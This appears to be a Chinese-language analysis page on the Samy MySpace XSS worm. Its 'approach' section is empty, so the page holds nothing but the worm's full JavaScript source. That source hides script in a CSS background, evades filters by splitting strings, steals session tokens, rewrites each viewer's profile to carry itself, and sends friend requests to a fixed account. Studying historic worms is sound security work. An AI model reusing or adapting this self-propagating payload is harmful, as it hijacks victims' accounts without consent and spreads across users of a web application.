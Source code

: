 # samy xss worm 分析

## 源代码
```javascript
<div id=mycode style="BACKGROUND: url('java
script:eval(document.all.mycode.expr)')" expr="var B=String.fromCharCode(34);var A=String.fromCharCode(39);function g(){var C;try{var D=document.body.createTextRange();C=D.htmlText}catch(e){}if(C){return C}else{return eval('document.body.inne'+'rHTML')}}function getData(AU){M=getFromURL(AU,'friendID');L=getFromURL(AU,'Mytoken')}function getQueryParams(){var E=document.location.search;var F=E.substring(1,E.length).split('&');var AS=new Array();for(var O=0;O<F.length;O++){var I=F[O].split('=');AS[I[0]]=I[1]}return AS}var J;var AS=getQueryParams();var L=AS['Mytoken'];var M=AS['friendID'];if(location.hostname=='profile.myspace.com'){document.location='http://www.myspace.com'+location.pathname+location.search}else{if(!M){getData(g())}main()}function getClientFID(){return findIn(g(),'up_launchIC( '+A,A)}function nothing(){}function paramsToString(AV){var N=new String();var O=0;for(var P in AV){if(O>0){N+='&'}var Q=escape(AV[P]);while(Q.indexOf('+')!=-1){Q=Q.replace('+','%2B')}while(Q.indexOf('&')!=-1){Q=Q.replace('&','%26')}N+=P+'='+Q;O++}return N}function httpSend(BH,BI,BJ,BK){if(!J){return false}eval('J.onr'+'eadystatechange=BI');J.open(BJ,BH,true);if(BJ=='POST'){J.setRequestHeader('Content-Type','application/x-www-form-urlencoded');J.setRequestHeader('Content-Length',BK.length)}J.send(BK);return true}function findIn(BF,BB,BC){var R=BF.indexOf(BB)+BB.length;var S=BF.substring(R,R+1024);return S.substring(0,S.indexOf(BC))}function getHiddenParameter(BF,BG){return findIn(BF,'name='+B+BG+B+' value='+B,B)}function getFromURL(BF,BG){var T;if(BG=='Mytoken'){T=B}else{T='&'}var U=BG+'=';var V=BF.indexOf(U)+U.length;var W=BF.substring(V,V+1024);var X=W.indexOf(T);var Y=W.substring(0,X);return Y}function getXMLObj(){var Z=false;if(window.XMLHttpRequest){try{Z=new XMLHttpRequest()}catch(e){Z=false}}else if(window.ActiveXObject){try{Z=new ActiveXObject('Msxml2.XMLHTTP')}catch(e){try{Z=new ActiveXObject('Microsoft.XMLHTTP')}catch(e){Z=false}}}return Z}var AA=g();var AB=AA.indexOf('m'+'ycode');var AC=AA.substring(AB,AB+4096);var AD=AC.indexOf('D'+'IV');var AE=AC.substring(0,AD);var AF;if(AE){AE=AE.replace('jav'+'a',A+'jav'+'a');AE=AE.replace('exp'+'r)','exp'+'r)'+A);AF=' but most of all, samy is my hero. <d'+'iv id='+AE+'D'+'IV>'}var AG;function getHome(){if(J.readyState!=4){return}var AU=J.responseText;AG=findIn(AU,'P'+'rofileHeroes','</td>');AG=AG.substring(61,AG.length);if(AG.indexOf('samy')==-1){if(AF){AG+=AF;var AR=getFromURL(AU,'Mytoken');var AS=new Array();AS['interestLabel']='heroes';AS['submit']='Preview';AS['interest']=AG;J=getXMLObj();httpSend('/index.cfm?fuseaction=profile.previewInterests&Mytoken='+AR,postHero,'POST',paramsToString(AS))}}}function postHero(){if(J.readyState!=4){return}var AU=J.responseText;var AR=getFromURL(AU,'Mytoken');var AS=new Array();AS['interestLabel']='heroes';AS['submit']='Submit';AS['interest']=AG;AS['hash']=getHiddenParameter(AU,'hash');httpSend('/index.cfm?fuseaction=profile.processInterests&Mytoken='+AR,nothing,'POST',paramsToString(AS))}function main(){var AN=getClientFID();var BH='/index.cfm?fuseaction=user.viewProfile&friendID='+AN+'&Mytoken='+L;J=getXMLObj();httpSend(BH,getHome,'GET');xmlhttp2=getXMLObj();httpSend2('/index.cfm?fuseaction=invite.addfriend_verify&friendID=11851658&Mytoken='+L,processxForm,'GET')}function processxForm(){if(xmlhttp2.readyState!=4){return}var AU=xmlhttp2.responseText;var AQ=getHiddenParameter(AU,'hashcode');var AR=getFromURL(AU,'Mytoken');var AS=new Array();AS['hashcode']=AQ;AS['friendID']='11851658';AS['submit']='Add to Friends';httpSend2('/index.cfm?fuseaction=invite.addFriendsProcess&Mytoken='+AR,nothing,'POST',paramsToString(AS))}function httpSend2(BH,BI,BJ,BK){if(!xmlhttp2){return false}eval('xmlhttp2.onr'+'eadystatechange=BI');xmlhttp2.open(BJ,BH,true);if(BJ=='POST'){xmlhttp2.setRequestHeader('Content-Type','application/x-www-form-urlencoded');xmlhttp2.setRequestHeader('Content-Length',BK.length)}xmlhttp2.send(BK);return true}"></DIV>
```
## 思路

